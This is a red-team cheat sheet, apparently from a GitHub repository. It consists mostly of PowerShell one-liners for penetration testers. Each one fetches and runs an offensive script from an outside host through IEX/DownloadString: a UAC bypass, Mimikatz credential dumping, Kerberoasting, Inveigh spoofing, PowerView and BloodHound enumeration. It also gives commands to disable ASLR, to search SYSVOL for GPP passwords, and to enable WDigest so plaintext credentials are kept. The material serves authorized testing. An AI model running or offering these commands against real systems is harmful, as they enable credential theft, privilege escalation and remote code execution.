 # CheatSheet

## Web
SSRF - [SSRF BIBLE](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit)
<br/>


## Command - Linux
### Disabling ASLR
```
sysctl -w kernel.randomize_va_space=0
```
<br />

## Red Team - CheatSheet.ps1
# Description: 
#    Collection of PowerShell one-liners for red teamers and penetration testers to use at various stages of testing.

# Invoke-BypassUAC and start PowerShell prompt as Administrator [Or replace to run any other command]
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"

# Invoke-Mimikatz: Dump credentials from memory
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

# Import Mimikatz Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

# Invoke-MassMimikatz: Use to dump creds on remote host [replace $env:computername with target server name(s)]
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

# PowerUp: Privilege escalation checks
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”

# Invoke-Inveigh and log output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"

# Invoke-Kerberoast and provide Hashcat compatible hashes
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"

# Invoke-ShareFinder and print output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"

# Import PowerView Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"

# Invoke-Bloodhound
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"

# Find GPP Passwords in SYSVOL
findstr /S cpassword $env:logonserver\sysvol\*.xml
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)

# Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER]
runas /user:DOMAIN\USER /noprofile powershell.exe

# Insert reg key to enable Wdigest on newer versions of Windows
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1

<br />
